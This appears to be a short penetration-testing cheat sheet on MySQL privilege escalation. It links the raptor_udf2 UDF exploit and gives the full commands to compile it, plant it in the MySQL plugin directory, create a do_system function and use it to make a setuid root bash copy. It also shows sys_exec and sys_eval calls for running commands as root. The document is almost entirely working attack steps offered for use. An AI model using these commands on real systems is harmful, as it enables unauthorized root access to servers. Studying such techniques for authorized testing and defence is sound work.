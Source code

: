# Mysql

**MYSQL UDF Exploit**: [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

mysql -u root

use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

exit 

user@target$ /tmp/rootbash -p
```

**MYSQL running as root :**

```
mysql -u root

select sys_exec('whoami');
select sys_eval('whoami');

/* If function doesnt exist, create the function */
CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';

if NULL returns, try redirecting the errors
select sys_eval('ls /root 2>&1');
```
